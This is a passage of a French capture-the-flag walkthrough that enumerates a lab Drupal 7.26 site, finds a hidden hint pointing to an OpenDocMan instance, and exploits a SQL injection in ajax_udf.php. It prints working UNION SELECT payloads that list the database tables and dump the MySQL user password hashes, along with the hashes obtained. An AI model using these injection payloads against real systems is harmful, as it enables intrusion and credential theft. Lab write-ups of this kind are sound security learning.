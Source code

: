 ```plain
    commerce http://192.168.2.4/jabc/sites/all/modules/commerce/
        http://192.168.2.4/jabc/sites/all/modules/commerce/README.txt
        http://192.168.2.4/jabc/sites/all/modules/commerce/LICENSE.txt
    image http://192.168.2.4/jabc/modules/image/
    profile http://192.168.2.4/jabc/modules/profile/
    php http://192.168.2.4/jabc/modules/php/

[+] Scan finished (0:00:06.160777 elapsed)
```

Le directory listing est activé sur les dossiers des modules et on trouve les fichiers avec extension *.info* qui nous permettent d'avoir plus de précision sur la version de *Drupal* (7.26).  

Il y a bien [un exploit](https://www.exploit-db.com/exploits/34992/) qui pourrait toucher cette version mais même en changeant l'URL de la page de login dans le code (car ne correspond pas à notre cas), ça n'aboutit pas.  

Chercher des exploits pour les différents modules présents est fastidieux et peut récompensé :(  

Bitch please
------------

Finalement sur la section *Documentation* du *Drupal* on découvre un texte noir sur fond noir...  

> For a detailed view and documentation of our products, please visit our documentation platform at /jabcd0cs/ on the server. Just login with guest/guest

Cette URL nous mène à un *OpenDocMan*. L'accès *guest* ne nous est pas de grande utilité mais le logiciel est vulnérable [à une faille SQL](https://www.exploit-db.com/exploits/32075/).  

*sqlmap* pataugeait sur l'exploitation, ne voyant pas qu'il ne s'agissait pas d'une exploitation en aveugle il voulait absolument faire une attaque boolean ou time based alors que le PoC affiche avec succès la version de MySQL :-/   

On n'est pas des manches, on se retrousse les manches ! Exploitation à l'ancienne directement dans le navigateur et on obtient facilement le nom de la base courante (*jabcd0cs*) ainsi que les utilisateurs existants (root et phpmyadmin).  

Avec une URL comme la suivante on peut obtenir les tables dans cette base (*odm\_admin*, *odm\_user*, *odm\_settings*, etc) :  

```plain
/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,TABLE_NAME,3,4,5,6,7,8,9%20from%20information_schema.tables%20where%20table_schema=0x6A61626364306373
```

et avec l'injection suivante on obtient les hashs des utilisateurs MySQL :  

```plain
UNION (SELECT 1,concat(User,Password),3,4,5,6,7,8,9 from mysql.user order by User)
```

```plain
root*9CFBBC772F3F6C106020035386DA5BBBF1249A11
phpmyadmin*9CFBBC772F3F6C106020035386DA5BBBF1249A11
drupal7*9CFBBC772F3F6C106020035386DA5BBBF1249A11
```
